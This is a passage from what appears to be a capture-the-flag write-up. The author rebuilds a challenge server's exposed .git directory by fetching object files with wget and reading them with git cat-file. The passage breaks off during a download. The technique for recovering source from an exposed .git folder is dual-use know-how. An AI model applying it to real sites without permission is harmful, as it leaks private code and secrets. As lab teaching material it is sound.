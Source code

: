 ```bash

juancho💀hackbox:git-commit-m-whatever$ ls -l .git/objects/27/56250c7cd2188bdf8c4cdeddc92bcbe13f1755
-rw-r--r-- 1 juancho juancho 143 Oct  8 14:08 .git/objects/27/56250c7cd2188bdf8c4cdeddc92bcbe13f1755
juancho💀hackbox:git-commit-m-whatever$ 
```

Now, to check the object, I knew of the command `git cat-file` but have never used it. From the help utility, I found `-t` to show the type, and `-p` to pretty-print the object based on its type.

However:

```bash
juancho💀hackbox:git-commit-m-whatever$ git cat-file -t 2756250c7cd2188bdf8c4cdeddc92bcbe13f1755
fatal: git cat-file: could not get object info
juancho💀hackbox:git-commit-m-whatever$ 
```

I researched what else are required to be in my directory tree, and found that both `HEAD` and the `refs/` directory tree should also be present, so I added those files.

```
.git/
├── HEAD
├── objects
│   └── 27
│       └── 56250c7cd2188bdf8c4cdeddc92bcbe13f1755
└── refs
    └── heads
        └── main
```

Try again:

```bash
juancho💀hackbox:git-commit-m-whatever$ git cat-file -t 2756250c7cd2188bdf8c4cdeddc92bcbe13f1755
commit
juancho💀hackbox:git-commit-m-whatever$ 
```

Then read the commit object:

```bash
juancho💀hackbox:git-commit-m-whatever$ git cat-file -p 2756250c7cd2188bdf8c4cdeddc92bcbe13f1755
tree c2c1d8bde15fa2174d6acd1284d7251579b8a1b4
author elliot <macuser@Macs-MacBook-Air.local> 1633254410 +0530
committer elliot <macuser@Macs-MacBook-Air.local> 1633254410 +0530

Committed security suicide
juancho💀hackbox:git-commit-m-whatever$ 
```

And found the tree hash: `c2c1d8bde15fa2174d6acd1284d7251579b8a1b4` in the commit hash. This is what I needed to reconstruct the files. Now, I did the same procedure:

```bash
juancho💀hackbox:git-commit-m-whatever$ mkdir .git/objects/c2
juancho💀hackbox:git-commit-m-whatever$ wget http://193.57.159.27:46140/.git/objects/c2/c1d8bde15fa2174d6acd1284d7251579b8a1b4 -P .git/objects/c2
--2021-10-09 22:40:02--  http://193.57.159.27:46140/.git/objects/c2/c1d8bde15fa2174d6acd1284d7251579b8a1b4
Connecting to 193.57.159.27:46140... connected.
HTTP request sent, awaiting response... 200 OK
Length: 268
Saving to: ‘.git/objects/c2/c1d8bde15fa2174d6acd1284d7251579b8a1b4’

c1d8bde15fa2174d6acd1284d7251579b8a 100%[================================================================>]     268  --.-KB/s    in 0s      

```